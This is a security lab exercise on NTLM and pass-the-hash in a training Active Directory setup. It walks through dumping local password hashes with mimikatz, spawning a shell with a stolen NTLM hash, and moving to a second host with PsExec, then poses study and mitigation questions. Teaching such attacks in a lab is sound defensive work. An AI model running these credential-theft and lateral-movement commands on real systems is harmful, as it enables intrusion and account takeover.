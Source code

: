 # Exercise 2 - NTLM and Pass-the-Hash

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Exercise

In this exercise, we'll execute a Pass-the-Hash attack through the local Administrator account. Remember (see Lab Setup Guide) that we set the same local admin password on adsec-00 as well as on adsec-01. Therefore the NTLM hashes are the same on both computers.

Open a command prompt with admin rights (right-click "Run as Administrator") and start mimikatz.

```
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

Run the following commands inside mimikatz to extract the password hashes of the **local** user accounts.

```
privilege::debug
token::elevate
lsadump::sam
```

Next, we use the PTH-function in mimikatz to start a shell with the hash of the local admin account (RID 500).

```
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

Finally, connect to adsec-01 using psexec.

```
cd C:\attacker-tools
.\PsExec64.exe \\adsec-01 cmd
```

Make sure everything worked as expected

```
whoami
hostname
```

## Questions

- What is the purpose of the mimikatz commands "privilege::debug" and "token::elevate"? Why do you need to execute them?
- Log on to adsec-01 as Bruce Lee. Use what you learned above and help john to remotely extract Bruce Lees NTLM hash from memory. `Note:` "lsadump::sam" only dumps the local password database. You need to use a different command to extract data from memory.
- Research on the internet on how to best mitigate pass-the-hash attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
- Is it possible (and feasible) to just disable NTLM at all? Explain your reasoning.